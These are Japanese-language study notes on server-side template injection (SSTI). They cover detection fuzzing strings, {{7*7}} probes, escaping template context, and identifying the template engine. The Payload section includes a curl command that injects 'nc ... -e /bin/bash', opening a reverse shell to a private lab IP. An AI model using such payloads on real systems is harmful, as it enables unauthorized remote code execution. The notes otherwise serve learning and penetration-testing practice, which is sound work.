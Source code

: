 ## ## SSTIの理解
 - SSTIは、SSTIを見つけようとしないと見過ごされやすい脆弱性である。
- 発火は、XSSと同じ文字連結によって引きおこる。

---
## ## SSTIの見つけ方
### ### Step1 : Detect(検出)
 - 特殊文字の列挙(テンプレートファジング)をするのが一般的。
```sh
${{<%[%'"}}%\
```
->注意:SSTIは2つの異なるコンテキストで発生し、どれぞれ独自の検出方法が必要である。

- SSTIの有無の判断基準
	- **プレーンテキストのコンテキストの場合**
		- XSSと同じ方法で見つけることが出来るが、この場合`{{7*7}}`などの演算を入力することにより、戻り値が49となればSSTIがあるという理解でいいだろう。
			※数字演算の場合、使用するテンプレートエンジンによって正しい書式が異なるので注意が必要。
	- **コードコンテキスト**
		- **Step1:XSSサイトでないことの確認が必要**
			```Example
			URL: http://site.com/?greeting=data.username<tag>
			目的: 直接的なXSS脆弱性がないことを確認
			期待結果: <tag>がエスケープされるか、エラーになる
			```
		- **Step2:テンプレート構文からの脱出。**
			```Example
			URL: http://site.com/?greeting=data.username}}<tag>
			目的: テンプレート式から抜け出してHTMLを挿入
			期待結果: もしSSTIがあれば「Hello Carlos<tag>」と表示される
			```

### ### Step2 :  Identify(特定)
SSTIの可能性を検出したら、次はtemplateエンジンを特定すること。
テンプレートエンジンの特定は以下の図のようなペイロードを送ればわかる。
![[Pasted image 20250612224600.png]]
※注意:同じテンプレート言語で成功レスポンスを返す場合があることに注意が必要。
1つのテンプレートで決めつけず複数のペイロードを使用する方がいい。

### ### Step3 :Exploit(悪用)

--- 
![[Pasted image 20250524180648.png]]
- 上記のような{}が出力されているときは、SSTIを疑ってよい


## ## Payload
```
curl -i http://192.168.237.117:50000/verify -X POST --data 'code=5*5'
curl -i http://192.168.243.117:50000/verify -X POST --data 'code=os.system("nc 192.168.45.154 18000 -e /bin/bash")'
```
※参考サイト
[https://book.hacktricks.xyz/generic-methodologies-and-resources/shells/full-ttys](https://book.hacktricks.xyz/generic-methodologies-and-resources/shells/full-ttys);

---
## ## Enumeration
### ### wordbruteforce
```sh
ffuf 
```

